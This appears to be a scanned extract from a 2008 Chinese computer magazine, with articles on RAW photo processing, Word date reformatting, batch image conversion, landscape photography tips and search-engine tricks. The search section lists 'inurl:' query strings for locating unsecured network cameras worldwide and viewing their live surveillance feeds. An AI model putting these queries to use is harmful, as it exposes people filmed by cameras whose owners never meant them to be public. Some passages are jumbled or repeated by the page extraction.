Capture One Pro 是一款跨多种平台的RAW转换及处理软件，支持目前绝大多数主流数码单反相机生成的RAW文件。号称是DSLR时代的必备软件、处理RAW文件的利器，在色彩细节方面甚至强于原厂软件，而且支持相同处理方案批量RAW文件转换功能，大大方便了影楼等行业用户。Capture One Pro算法先进，图像处理快捷，预览千万像素的大RAW文件都基本没什么时滞，而且其色彩管理模块做得相当好，但缺点是软件里面的选项如果没有正确设置的话，会直接导致出片后的图片和处理结束时的图片大相径庭。Capture One Pro在操作界面比较有个性，和一般常用软件有较大不同，需要一段时间才能熟悉，另外Capture One Pro是一款价格不菲的商业软件，一般个人用户购买起来会比较吃力。

### 2.Adobe Digital Camera Raw

Photoshop 无疑是广大数码摄影爱好者最常用的数码图片处理软件，但其并不直接支持RAW文件的处理，需要安装相应的插件才能打开不同品牌相机的RAW格式文件。Adobe Digital Camera Raw 就是Adobe官方推出的支持RAW格式文件的插件，安装后你就能够在熟悉的Photoshop界面内打开并编辑各种RAW文件了，可以方便地调节饱和度、反差、锐度等效果，在降噪等方面也有不错的表现。

# SOLUTIONS 多媒体

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_230_0.png）

程中可能会出现一定误差。另外现在Adobe推出了专门处理RAW文件的“Adobe Lightroom”软件，从很大程度上弥补了ACR插件的不足，感兴趣的朋友不妨一试。

### 3. Silkypix Developer studio

Silkypix Developer studio是一款专业的RAW格式文件处理软件，功能完善效果良好，具备一些特色功能，比如镜头像差补正和水平变形矫正等。软件最大的特点就是能对各项参数和效果进行精细调整，比如白平衡、调子、色彩和锐化的精细调整，以及高光暗部警告等，非常适合对图片效果精益求精的朋友选择使用。

软件提供了九种曝光矫正，鼠标所到选择效果即时反映在右侧待处理的图片上。上部滑条可以精细调整，下部粉色区域滑条更可以精确到小数点后两位数。白平衡调整也有二十四种选择，还可以手动对色温、色差、暗部等细节精确调整。锐度调整部分，除了下拉菜单的快捷选择，更可以在面板下半部分进行细微的调整。色彩调整方面，可以在下拉菜单中直接选择模拟的十一种胶片效果，并可以选择转换为黑白色，还可以调整Saturation等参数，以及打开高光控制面板进行调整；NR噪点控制，可以进行错误色彩控制、强力降噪等处理。令人激赏的是Fine Color Ctrl精细调整色彩，用鼠标点击画面任何一个地方，就可以针对此色彩在这个面板中进行hue、saturation、lightness等调整，功能十分强大。

### 在PS中处理RAW照片

在噪、色彩还原等方面都有良好的表现。Adobe Digital Camera Raw插件尽管不能独立运行，但其功能还是比较丰富的，不过由于相机厂商并未把感光器件核心技术提供给Adobe公司，该插件是通过反解数据的方法打开RAW格式的，在反解运算的过程中可能会出现一定误差。

**小提示：在Windows XP下直接查看RAW文件**

目前使用最为广泛的Windows XP操作系统并不直接支持RAW文件的查看，让我们多少感觉有些不太方便。好在随着RAW格式的流行，微软也没有放过对其提供支持，出品了一款名为RAW Image Thumbnailer的系统插件，安装后在Windows XP中就能直接查看佳能和尼康相机拍摄的RAW文件了。

## 五、RAW文件处理实例

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_230_1.png）

要用好高端数码相机，尤其是数码单反，必须会处理RAW文件和使用PS等图片处理软件，刚开始可简单调整一下黑白场、运用高光/暗部调节等，深入后则要学习图层、蒙板等较高级的技巧。另外在处理RAW时，注意先要将CRT的色彩调整好，可以使用Photoshop或“DisplayMate”软件来校准显示器。下面我们以佳能官方的RAW处理软件Digital Photo Professional为例来谈谈RAW文件的处理实例。

### 1. 曝光量控制

RAW格式文件记录的数据实际上是各个像素点的灰度值，再加上其位数通常是12位，所以信息量远大于8位的JPG格式，当我们在后期调整画面亮度时，RAW格式文件可以尽量避免亮度值左右溢出，保护图像细节。摄影者可以在一定范围内精细地对画面亮度进行调整，有时候我们把这类调整称为“后期曝光”。RAW图像调节窗口上部，亮度调整栏位置可以左右移动拨杆，向左为降低亮度，向右为提高亮度，为了更加直观，它的单位为“EV”，也就是曝光指数，有点增减曝光值的意味。

JPEG格式如果曝光过度出现“死白”区域，就完全干瞪眼了。这一方法常常应用在：强烈阳光下的逆光摄影、舞台聚光灯下的摄影等等很多方面。针对暗部和亮部作单独的调整、对比度、饱和度都可以调整。而对于RAW格式，在一定范围内，对亮度的调整既可以“救回”暗部细节，也容易让亮部溢出，因此它并非万能药，如何把握则是使用者的技巧问题了。

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_231_0.png）

提高照片曝光量。

### 2. 白平衡控制

在复杂光线情况下，我们要通过相机的自动白平衡功能得到一张色温完全正确的照片，几乎是不太可能的。JPG是经过相机内部芯片处理后的图像，白平衡作为已经“固化”的信息最终呈现出来，后期修正不得不永久性地破坏图像的色彩构成，而RAW格式文件则完全没有这个问题，它记录的只是像素点的灰度值，色彩问题则留给了软件和用户，无论用户如何对其白平衡进行设置，都不会影响到画质，这无疑是RAW格式文件最闪光的优点之一。Digital Photo Professional提供了强大而易用的白平衡调整功能，位于RAW图像调节窗口中上位置。

CfanBoundEdition · 2008 231

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_231_1.png）

用单击方式调节白平衡。

### 3. 锐度对比度调节

锐度是摄影者比较重视的指标，什么是锐度？简单地说，可以理解为反差，比较典型的例子是物体边缘的反差，反差越大“锐度越高”。这里我们要强调一点，锐度高不等于细节多，很多情况下，过大的反差反而会对细节造成损害，画面看上去会显得干涩。因为没有机内锐化，数码相机拍摄的RAW图像都有偏“软”的问题，觉得不够清晰，让我们看看Digital Photo Professional是如何调整画面锐度的。

在RAW图像调节窗口中下位置，我们可以看到“锐度”调整栏，大家可以观察到不同设置下的画面效果。锐度为0，画面显得有些“肉”；锐度为3，物体边缘反差增大，这是我们比较推荐的锐度值；锐度为10，最高设置，反差极大，但画面相当干涩，除极端情况下不推荐。

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_231_2.png）

RAW图片通常应适当提高锐度。

### 4. 其他效果调整

使用合适的软件，我们还可以对RAW格式的图片进行各种调节，比如杂点杂色的处理、紫边的处理。有人说用RAW拍摄的图片，杂点比JPEG的多，这是因为相机对JPEG作了一定的处理，而RAW不是一种图像格式，而是原始图像信息的采集，经过软件的处理，其效果要比使用JPEG拍摄依赖相机处理的效果好得多。

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_232_0.png）

降噪及镜头失真调节。

由于种种原因百分百完美的摄影镜头是不存在的，每款镜头或多或少都存在畸变和暗角等问题，尤其是广角镜头有时会出现四角失光现象，不过我们同样可以在后期通过软件进行一定程度的处理。佳能公司在最新版本的RAW图像处理软件Digital Photo Professional中增加了一项很实用的新功能，即软件可以针对不同的镜头修正图像的枕形或桶形畸变，改善暗角情况，修正色差等功能，该功能支持大多数主流佳能数码相机及镜头。

另外在一些软件中，我们还可以对RAW文件进行效果较好的图片插值做放大操作，如果数码相机像素较低，而又要打印超大幅面的照片，我们可以尝试一下对RAW文件进行插值放大。

## 规范日期数据文本格式的技巧

◇文/吴廷永

最近要对学校基本情况进行检查，要求采用电子档案记录学生的基本情况，由于很多教师参与了数据录入，数据集中到一起后，发现出生日期、毕业日期等日期类数据的格式多种多样，但上级临时要求必须采用标准的日期格式，即“一九××年×月×日”这种格式。数千个学生的相关栏目数据，如果要一个个进行修改，其工作量可想而知。经笔者研究发现使用Word的“查找、替换”功能可以批量完成上述操作。

为叙述方便，先补充一些基本知识：①两个通配符“?”和“*”，“?”可匹配任意的单个字符，“*”可匹配任意个数的字符。②“^#”表示任意数字、“^p”表示段落符号，“^&”是指符合查找条件的内容，这些特殊字符除了“^&”必须用键盘输入之外，其它的字符也可以在打开替换对话框后，单击“高级”、“特殊字符”后，选择相应的命令得到。

- 下面以“89.10.2”这类日期数据为例说明。
我们制作表格的软件一般为Word、Excel，都可以把日期数据选中复制到一个新的Word文档中，得到一个含有日期的单列表格。具体的转换过程如下：

1.  选中这个单列表格，把它转换成文字。方法：打开“表格”菜单，选择“转换→表格转换成文字”菜单项，出现“将表格转换成文字”对话框，单击“确定”，这时文档会变成一个包含上述数据和段落符号的文档。
2.  “.*.” 变成 “年.*.月”，即在第一个“.”前加“年”，第二“.”后加“月”，结果为：89年.10.月2。方法：编辑→替换，打开查找替换对话框，在查找栏输入“.*.”，替换栏输入“年&月”，单击“高级”，选中“使用通配符”选项，然后单击“全部替换”。
3.  “年.*.月” 变成 “年*月*”，即删除“.”，结果为：89年10月2。方法：在查找栏输入“.”，在替换栏什么也不要输入（当然要把上面输入的“年&月”删除），然后单击“全部替换”。
4.  在日期数据前面加上“19”，结果为：1989年10月2。方法：在查找栏输入“^#^#年”替换栏输入“19&”；然后单击“全部替换”。
5.  在日期数据后面加上“日”，结果为：1989年10月2日。方法：取消“使用通配符”选项，在查找栏输入“^#p”，替换栏输入“&日”，然后单击“全部替换”，你会发现差不多了，只不过每个“日”前会多一个段落符号，这时只需把查找内容改为“^p日”，替换内容改为“日”，再单击“全部替换”，就可以删除了那个多余的段落符号。
6.  选中含有日期的文本行，执行与步骤①相反的操作，即把文字换成表格，在表格中选中这些字符，就可以把它们复制到原来的Word或Excel文档中了。

如果嫌上述操作比较繁琐，还可以把上面的操作录制成“宏”，在工具栏给这个宏做一个按钮，再遇到相同问题时，只需单击这个按钮就可以执行上面的操作了。

## 四、玩转数码相机的RAW格式设置

### 1. 选择合理的格式设置

从前面的介绍中，大家可以看到，使用数码单反相机拍摄较正规的“作品”时都应该使用RAW格式保存，能大大提高图片质量和后期制作的灵活性。设置好RAW格式后，相机除了ISO、快门、光圈、焦距之外，其它设定对RAW文件一律不起作用，因为色彩空间、锐化值、白平衡、对比度、降噪等所有操作将在电脑中由你自己控制调整。

RAW格式的图片尽管具备很多优点，但它存在的一个最大问题是不能在电脑上用普通的软件直接打开，一般用户使用起来比较麻烦，大多数彩扩店也不能直接采用RAW文件。因此拍摄一般的纪念照时还是用JPG格式，这样一是出图快，二是省卡，而在进行所谓的“创作”时，则用RAW+JPG，这样可以在电脑里对RAW进行精细的调整。相机也会同时保存一个JPG文件，方便我们浏览和使用。

### 2. 让低端相机也支持RAW

RAW的优势众所周知，但是在低端DC上面几乎不会支持RAW格式存储，这一方面是因为考虑到普通玩家不会处理RAW，更重要的是把RAW作为产品线档次划分，只在高端DC和DSLR上使用。而实际上，所有的低端DC都有RAW文件的存在，国外玩家利用升级固件，可以在Canon所有低端DC上存储RAW格式文件。具体是利用CHDK这套用于佳能数码相机的非官方固件“升级”程序，它并非真正对相机内的固件进行升级，而是作为一套执行在相机内的应用程序。通过CHDK的帮助，不仅可以让相机支持RAW格式，还可以增加实时直方图、曝光过度/不足警告、自动景深计算器、电池电量提示、脚本功能、存储卡文件浏览、文本文档阅读、日历以及其他的一些有趣的工具甚至游戏。

首先确定相机固件版本，然后下载相应版本的CHDK。按照提示操作之后你的相机就可以支持RAW格式了，不仅如此，相机还自动进入了支持CHDK的菜单模式。

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_232_0.png）

## DC用户的福音 数码照片批量转换 一劳永逸

数码相机越来越便宜，大家一定用它拍了很多照片。但是这些照片往往有时会出现格式不统一或色彩、大小不尽如人意的情况，打开Photoshop一个一个地修理属于精雕细琢，当然是可以取得不错的效果。但如果图片一多，处理起来就很不方便了。现在数码相机的存储器很大，出门旅游一时尽兴，会拍下很多张照片。如果批量处理它们就成了我们必学的一门功课。有幸的是，现在很多的软件都集成了这个功能。

◆文/江北书生

### 1. XnView法

平时看图一般人肯定会用ACDSee，但是相信大家也清楚，ACDSee随着版本升级、涉及各种功能，带来了臃肿体态、运行缓慢的“副作用”。小兵级人物XnView曾经引起了不小的轰动，受到很多Fans的追捧。而且，XnView内置了强大的批量转换功能，并支持诸如更改分辨率、图片大小、转换为灰度等高级操作，很贴心。

**第一步：设置转换**
打开XnView，选择“工具”→“选项”，再单击左侧“通用”项，然后单击右侧的“杂项”标签，单击“转换”下拉列表框，从中选择“对当前文件夹（包含子文件夹）中的全部图像文件”，再单击“确定”按钮完成设置。

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_233_0.png）

**第二步：准备转换文件夹**
在浏览状态下，选中欲转换的文件夹（可以按下Ctrl或Shift键多选）。选择“工具”→“转换”或按下Ctrl+U键，可以快速打开转换窗口，并转换我们选定的文件（如图1）。

**第三步：设置输出文件夹**
在图1窗口的上部，我们还可以通过“添加”、“添加文件夹”、“删除”、“删除全部”按钮来调整准备转换的图像文件。而在“输出”项目下的“目录”中输入转换后图像文件的保存路径，如果不输入则表示为当前路径。在“目录”下选择输出图像文件的格式，和在同路径下出现同名文件时的替换方式。单击“选项”，在弹出的“选项”窗口的“写”项目中，设置所选择的准备输出的格式（如图2）。

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_233_1.png）

**第四步：进行高级操作**
以上初步设置完成后，单击图1窗口上方的“变换”标签来到高级操作窗口（如图3）。这里有近60种图像处理方式，从图像大小的改变到滤镜的采用，一应俱全。我们根据自己的需要依次添加。
设置完成后，单击“确定”回到“批量文件转换”窗口，单击“开始”，几分钟后，所有的图像的批量转换即可顺利完成。

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_233_2.png）

> **小提示**
当然，XnView的批量转换功能远远不止这些，更强大的功能等着你在实践中开发、应用了。XnView完全能满足我们现在查看图片的需要，而其免费、启动快速、体积娇小，已经让我们喜欢上了她。

### 2. IrfanView法

IrfanView是一款快速、简单的免费图像编辑及浏览软件，支持所有主流的图形文件格式。不过，它的功能可是多多，下面的技巧就可以帮助我们来批量转换图片。

**第一步：选择欲转换文件**
先启动IrfanView，然后选择“文件”→“批量转换/重命名”命令，打开“批量操作”窗口。接着选中左边“包括子文件夹（用于“全部添加”）”复选框。
从“查找范围”文件列表下拉框选择要转换文件夹，单击下方的“全部添加”按钮将其中所有的图片都添加到转换列表中。

**第二步：设置输出文件夹**
我们可以在“结果文件输出目录”下方设置输出文件夹，也可以单击“使用当前‘查找范围’文件夹”，这样就会把转换后的文件保存在我们当前打开的文件夹中。

> **小提示**
★如果要转换多种文件类型，比如既要转换JPG文件，又要转换TIF文件，则分别从“文件类型”下拉列表框中选择文件类型，每选择一次按一下“全部加入”按钮，IrfanView会把当前文件夹符合要求的文件添加到转换列表中。

**第三步：设置转换图片格式**
单击“文件类型”下拉列表框，可以选择转换后的图片文件类型，再单击“选项”按钮，还可以对转换后的图片格式进行进一步控制（如图4）。

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_234_0.png）

**第四步：设置高级选项**
选中“使用高级选项”复选框，再单击“设置高级的选项”按钮，打开“用于所有图像的设置”窗口，先勾选“在目标文件夹中创建子文件夹”复选框(如图5)。然后再设置其他的一些选项，如：转换后文件的大小、分辨率、是否是灰度等。

> ★由于我们在输出文件夹中设置为转换文件所在分区的盘，又选中了“在目标文件夹创建子目录”复选框。所以一会儿转换后的图片就会自动存放到原来的文件夹下了。
★选中“转换到灰度”复选框，可以使转换后的图片为灰度格式。这对于报社批量转换灰度图片相当有用。
★选中“转换之后删除原始文件”复选框，则可以在完成转换后，把原文件删除掉。

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_234_1.png）

**第五步：确认批量转换**
单击“用于所有图像的设置”控制窗口的“确定”按钮退回到转换窗口。单击“开始处理”按钮，IrfanView即可出现一个转换进度窗口，完成后即可。

> 选择“批量重命名”选项则可以为我们的多个图片文件批量命名，这个我们就留着聪明的读者自己去做吧！

### 3. 光影魔术手

光影魔术手是一款不可多得的优秀工具，光影魔术手不仅个头小，只有1M，而且无须安装。单论处理数码照片的效果可以说完全比Photoshop更专业，而论操作则简单到有时只需要点按一次鼠标就完成了。我们要利用它来批量转换图片也非常简单。

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_234_2.png）

> 添加的动作前面是绿色的钩，表示有效，红色的X表示无效。

**第一步：准备转换**
选择“文件”→“批处理”命令，打开窗口。我们单击“目录”按钮，然后在打开的窗口中选择欲转换的图片所在文件（如图6），即可将其中的图片添加到转换列表中。

**第二步：设置特殊效果**
单击“自动处理”标签，在其中我们可以设置特殊的效果。在这里，我们可以添加相应的动作。也可以单击右侧的相应按钮，在打开窗口中设置好处理动作的相应参数值（如图7）。

**第三步：设置输出文件夹和文件名规则**
单击“输出设置”标签，在其中可以设置输出文件夹和文件名规则（如图8），这些都非常简单，不再赘述。

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_234_3.png）

**第四步：实施批处理**
接下来，只要单击“确定”按钮即可开始批量处理。

### 4. 用FastStone Viewer

FastStone Viewer是一款非常小巧的看图软件，别看它个头小，但是功能却十分齐全，批量转换毫不含糊。

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_234_4.png）

（此处应有图片描述：img/36e198f21e0833fcfb6f2fcd189fd321_234_5.png）

**第一步：选择欲转换文件**
先启动FastStone Viewer，然后选择“工具”→“批量转换/重命名”命令，打开“批量转换/重命名”窗口。接着在右侧中选中文件（夹）。再单击“全部增加”按钮将其中所有的图片都添加到转换列表中。

**第二步：设置转换图片格式**
单击“输出格式”下拉列表框，可以从中设置转换图片的格式，单击其后的“设置”，还可以对转换后的图片格式进行进一步控制（如图9）。

**第三步：设置输出文件夹**
我们可以在窗口中的“输出文件夹”下方设置输出文件夹。

**第四步：开始转换**
单击“开始”按钮即可开始转换。

五一小长假，十一大黄金周，假期出游的人们越来越多，数码相机则是必不可少的随身携带品，既能定格朋友们的精彩瞬间，又可留住各处的美丽景物。东岳日出，黄山云海，普陀薄雾，江南细雨，长白山雪景，为什么别人镜头下的湖光山色总比自己的多些韵味？别着急，掌握了下面的拍摄要诀，你就有可能成为拍得人物更拍得景物的全能战士。

## 拍摄全能战士——日、云、雾、雨、雪拍摄要诀谈

由于光线的散射，我们平时看到的太阳是模糊的一团。而当散射微弱的时候，太阳的轮廓则会很明显。日出日落时，地平线上的云彩会吸收甚至是反射太阳散射的光芒，我们会看到清晰的太阳，圆圆的像个蛋黄，这个时候拍摄，能避免太阳散射时在底片上产生的光晕。

除非为特殊要求，一般不会只拍摄孤单的太阳，想想看，整张照片上就一个圆，多么单调。太阳本身早晚并未有多大区别，一定要区分的话，在照片上表现出来，早晨时的天空更清朗，整体色感偏红带黄。而黄昏时天空较混浊些，呈现出品红色。日出日落之美不是在太阳本身，而是因日出日落而带上别样光彩的寻常景物。

云彩是太阳周围上好的点缀物。

但有时候，朝霞或晚霞反射太阳散射会造成逆光。逆光也会影响拍摄太阳的效果。所以，太阳散射的光芒被遮盖而不产生逆光是拍摄日出日落的绝佳时机。绮丽的朝霞，绚烂的晚霞，围绕着太阳，变幻着形象，这幅画面也许就是古人们“二龙戏珠”想象的由来。

选择拍摄太阳出山或落山的景色时，如果正好有一潭湖水，“半江瑟瑟半江红”，美哉！而只有山没有水，缺少了水的反光，对比天空的明亮，山愈发深黑沉重，这种对比观感上显得突兀。为避免“黑白配”的视觉刺激，在拍摄山峦红日时，为使整体色调更为均衡，需等到部分太阳为云彩遮住，或者增大天空部分的曝光。

天空中若没有云彩又如何呢？在画面角落选择一些树叶、枝干作为点缀，能均衡整体构图。但作为天空部分前景的树叶、枝干不可过密、过多，否则容易反客为主，既使太阳失去重要位置，又让画面的均衡感大打折扣。日出后太阳会很快散射光芒，而日落时太阳光芒很早便被吸收，不再散射。因此，拍摄日出应抓紧时机，做好准备，太阳升上地平线就抢镜头，而黄昏时则可细细琢磨，认真构图。

云是水蒸气的凝结体，会移动、变换甚至消散。在移动、变换和消散的过程里，云奇异多姿的形象吸引着我们的视线。小学有篇课文写火烧云，欣赏火烧云，小孩子们欢呼雀跃，大人们微笑颔首。

不同气候下、不同季节里的云所展现出来的形象也大不相同。“朝霞不出门，晚霞万里行”，看云可识天气。若是风和日丽，你会看到漂浮着的朵朵白云；若是山雨欲来风满楼，肯定乌云密布了。春天浮云翩翩，游子易生归意；夏日多骤雨，层云往往凝结不去；秋高气爽，鱼鳞云漫游天空；冬季风急，把云吹成稀疏的一条条。照片无言，云便可用自己的语言告诉观者当时为何时。

作为点缀，云是绝好的选择。天空里有了云彩，避免了空旷，也有了虚幻的味道。但云不是想点缀便可拿来点缀好的，一定得注意云与周遭景物的适应性。如果景物有显著的横条，那就不宜选择横条的云来陪衬，否则整幅画面横成一片，呆板无美感。所选择的云大小不可与主体相等，容易造成主次不分。深浅层次不分的云根本不适合做陪衬，也不适合做主体。一般在阳光斜射的时候，云能产生较多的层次。另外，拍摄云景得选择滤色镜，彩色用偏振镜，黑白用黄、橙滤镜。所以，在斜照下，对比云的形象、与主体的协调感，耐心等待时机，才可摄得美丽的云。

### 一、仙气飘飘拍云雾

神话里仙人住在仙山中，仙山云雾缭绕。总觉得这种神秘感完全来自变幻莫测的仙雾。雾同样是水蒸气凝结成的小水滴，相比云，雾更多表现出了缥缈感。拍摄雾或是雾景，定要留住这份缥缈，那就得在层次感上多下功夫。

雾多生于晨，太阳还未将其完全蒸发时，或厚或薄的雾缠绕在山腰，笼罩着山峦，这时可拍摄逆光的山景，因为晨雾的厚薄不同，不同的山峦或山峦本身就有了深浅不同的层次。以近处的主要山层做曝光基调，所拍摄的风景自然而然就有了色调明暗变化丰富的感觉。

云雾随风飘动，层雾停留在树林里。透过稀疏的枝叶，阳光照入密林，成为一道道“光柱”。因角度、位置的不同，光线自有明暗之分，完全是大自然的造诣。我们需掌握其中的变化，静静等候，进而定格心仪的景色。

傍晚的湿气较少，故暮霭相较晨雾更淡薄。这时较远的景物才有雾的感觉，而近处物体如同无雾一般。若运用逆光拍摄，有暮霭的地方也能表现出深浅的层次，但近处无雾的地方会曝光不足，若主体景物在近处，不妨以近处景物作为曝光基调。要是目的在拍摄暮霭中的远景，最好用长焦距的镜头拉近拍摄。

### 二、大大小小演雨景

想拍摄雨条，应选择大雨及深色调的近背景。雨大，雨条才可能大。而雨本身透明，在浅色调的背景下不容易清楚显现，深色调的背景才有可能衬托出透明的雨滴。但如果背景过远，整个景物场面过大，雨条的形象也会减弱。所以，拍摄雨条应着眼于小范围内的景物，避免出现白色的天空或其他。为拍摄还未落地的雨条，要站在较高位置，选用1/60秒的快门。在较快的快门速度下，所拍摄的雨条会较短，动态感强；而更慢的快门虽不能清晰展现景物动态，但却宜于表现较长时间的雨景。

毛毛细雨中是不容易拍得雨条的，但毛毛雨可以为景物笼罩出一种如烟如雾的气氛。那又该如何拍出烟雨濛濛呢？在大背景下，选用深色调的树林、山峦，因为没有阳光照射，小雨在深色景物中显得远浅近深，恰如雾层。如果所选择的背景不大，以近处物体的明亮度作曝光基调，同样能营造出朦胧的感觉。

蒙蒙细雨中的江南小巷比晴朗时更耐人寻味，但下雨天却少见游客四处拍摄，不方便是一，拍不出好的感觉是二。

下雨时光线弱，景物光亮度低，拍摄首先应将光圈调大，快门速度调慢，如此才能保证足够的感光。

雨景难拍，光线是个很大的原因。夏天大雨时往往是“东边日出西边雨”，这时候非常适合拍摄。好时机可遇而而不可求。为宝贝相机做好防雨准备，在普通的雨里练习拍摄技巧，顺便等待突至的好运气吧。

### 三、纯洁无瑕话雪景

平淡无奇的景物经雪笼罩后自有一番风味，雪像一个魔术师，降落到哪里，就把哪里变得美丽。大雪后，捕捉镜头的人们比比皆是，而拍摄雪景也是要有些诀窍。

飘舞的雪花袅袅娜娜，要拍摄这些天上来客，非得选用深色的背景来衬托，这点和拍摄雨条的要求一样。小范围的深色背景下能看见大部分正飞舞的雪花，而若是天空下的大背景，只有那些深色的景物前才能显现雪花了。

雪是由透明的晶体组成，为表达这种质感，应在较远的地方拍摄。雪景中大部分为白色，在胶卷上白色感光灵敏，白色景物比其他景物明亮，太阳照射的时候，愈加明亮。想表现雪景的层次或较近处雪的质感，可以选择逆光或侧逆光拍摄。拍摄远景亦可选择这种角度，能营造出一种幽深的气氛。如果从正面或上面垂直拍摄雪景，都不容易让雪粒表现层次和质感，并且物体还容易失去立体感。

未被雪覆盖的物体因为白色的强烈对比颜色更深，有首打油诗就写了大雪过后的这种对比：“黑狗身上白，白狗身上肿，井口是个大窟窿。”选择柔和的太阳光拍摄，可以使各色调的景物都能按自然层次过渡显现。

总之，选择简单明快的雪景，各种物体均有自己清晰的线条，采用逆光或侧逆光，才可能拍出完美的雪景。哦，追求卓越的你别忘了带偏振滤色镜。

看过以上小窍门，你是否有了些许心得呢？心动不如行动，赶快拿上相机，捕捉属于自己的精彩吧！

## 想搜就搜：寻找鲜为人知的搜索技巧

◆文/风之扬

## ★ 网页搜索专题

### 1. 让搜索引擎成为生活助手

如今，搜索引擎的功能越来越强大。但是，经常使用百度的用户不一定了解“百度知道”，经常使用谷歌的用户不一定了解“Google博客搜索”，一些方便实用的功能远远没有被充分利用。

#### （1）使用搜索引擎查询天气预报

要想知道某个城市的天气状况，只需在搜索框中输入需要查询的城市名称加上“天气”这个词即可。例如，搜索“武汉天气”，就可以了解武汉当天的天气情况。在谷歌中查询天气更加方便，只需输入一个关键词（“天气”、“tq”或“TQ”任选其一）和需要查询的城市地区名称，谷歌就会返回当地的天气状况和天气预报，并有丰富的天气图示。如图1所示。

#### （2）查询实时股市、汇市报价

股票、基金、纸黄金等理财产品对实时信息的要求非常高。在搜索引擎中，只要输入名称或相关代码即可获取动态信息。如在百度中输入“招商银行”，在搜索结果中就会出现该公司的详细股价及交易信息。

#### （3）万能计算器

相对于Windows附带的简单计算器功能，搜索引擎的算术计算器能够一步到位完成计算，它不仅能完成简单的加减乘除运算，还可处理常规换算问题以及物理常数问题。以百度、谷歌为例，用户在搜索框中键入算术表达式（例如“99*9+88*8”），即可获得答案为1595。此外，使用搜索引擎内置的货币转换器，在搜索框中键入需要完成的货币转换即可得到答案。比如，在百度中输入“1人民币 = ? 美元”，点击“百度一下”后，就得到了“1人民币 = 0.1459278824405 美元”的答案。

#### （4）查找缩略词或定义

在互联网或计算机领域，有许多五花八门的缩略词，用户往往百思不得其解。其实，在搜索引擎中直接输入“缩略词 英文缩写”（例如“ISBN 英文缩写”）即可；如果想知道一个具体词汇的定义，可以使用“定义”或“define”，接着键入一个空格，然后键入需要定义的词。比如，要想知道氨基酸是什么意思，只需要在百度或Google中搜索“定义 氨基酸”，就可以找到氨基酸的定义。

#### （5）中英文翻译

点击谷歌首页正下方的“翻译”标签，进入翻译界面，地址为http://translate.google.cn。在这里，可以在线翻译外文段落、网页及搜索结果等。在翻译界面中，还有“经过翻译的搜索结果”、“字典”等实用工具，能够有效提高翻译的准确性。如图2所示。

另外，谷歌本身带有中英文翻译的功能，只需输入一个关键词（“翻译”或“fy”任选其一）和要查的中（英）文单词，谷歌会直接显示单词的英文（或中文）翻译。比如我们想要翻译“电脑”这个词为英文，那么只需要在谷歌中搜索“翻译 电脑”或者“fy 电脑”，返回的第一条记录就是翻译的结果。

#### （6）查看国外视频或旅游视频

网页URL地址中的某些信息，常常有某种有价值的含义，通过对搜索结果的URL进行某种限定，就可以获得良好的效果。实现的方式是使用“inurl:”，后面跟上需要在URL中出现的关键词。例如，互联网上有成千上万个网络摄像头，散布在世界各个角落，用于公园、宾馆、街道或家庭的监视。要查看国外摄像头实时影像时，只要在搜索引擎中输入特殊的关键字，就可以搜到数千个摄像头的IP地址。这些安置在各地的摄像机在购买的时候都会附赠一套软件，不同品牌的摄像机产生的URL虽然不同，但都有一定规律。比如输入“inurl:"ViewerFrame?Mode="”后，搜索的结果就是Panasonic（松下）网络摄像机拍摄的画面。类似的厂商关键词还有“inurl:"MultiCameraFrame?Mode="”、“inurl:"axis-cgi/mjpg"”或者“inurl:"view/index.shtml"”等，在搜索结果中随便打开一个地址，按提示安装插件，就可以看到清晰的监控图像了。

#### （7）通过互动搜索解决日常疑难问题

在日常生活中，人们通常会碰到医药健康、生活常识、科普百科等方面的难题，通过简单的搜索往往无法得到满意的答案。因此，出现了一些智能的互动搜索平台，比较典型的代表包括：百度知道（http://zhidao.baidu.com）、新浪爱问（http://www.iask.com/）、雅虎知识堂（http://ks.cn.yahoo.com/）。这些互动搜索的特点在于：以一个独有的互动问答平台弥补了传统算法技术在搜索界面上智慧和互动性的先天不足。通过全新的信息交流服务，可以调动网民参与提问与回答，集结众人的经验与专长，在问与答的讨论之间，帮助用户找到满意的答案。比如，在“健康/医疗”等方面，经常会有专业的医生参与会诊，他们同样也是热心的网民，利用业余时间来专门回答关于健康方面的网友提问，这无疑更增加了答案的准确性和时效性。

#### （8）地图搜索

去外地旅游之前，可以利用Google地图（http://maps.google.com/）或百度地图（http://map.baidu.com/）提前了解目的地情况。比如要去武汉黄鹤楼，先到Google地图搜索一下“武汉”，大致浏览一下武汉市的地图。然后在搜索框中输入“黄鹤楼”，就可以把相关地方搜索出来。

此外，百度、谷歌等搜索引擎还提供了短信搜索、查找注册码、网站管理员信息统计等功能，给用户的日常生活提供了很大方便。

### 2. 寻找鲜为人知的搜索符号

搜索引擎基本上都支持附加逻辑命令查询，用好这些命令符号可以提高搜索准确度，达到事半功倍的效果。（注意：本例测试的关键词均为双引号里面的部分。）

- **（1）搜索逻辑命令“+”号和“-”号实现组合搜索**
  “+”号（AND）用于在搜索中指定涵盖某项内容，而“-”号（NOT）则用来从结果中排除某项内容。通过“+”号和“-”号设定关键词，可以实现更精确的搜寻。注意：输入代表逻辑关系的字符时，一定要用半角。以下是几种常用的组合方式。
  - 第一种：“程序 语言 Java”。这是最基本的搜索方式，也是普通用户使用频率最多的搜索方式。它表示查找与该关键词有关的记录，相当于布尔逻辑命令中“OR”的关系，即：程序（OR）语言（OR）Java。因此，搜索结果中不仅有同时包含三个关键字的记录，也有仅含部分关键字（如程序 Java）和个别关键字（如程序）的记录。
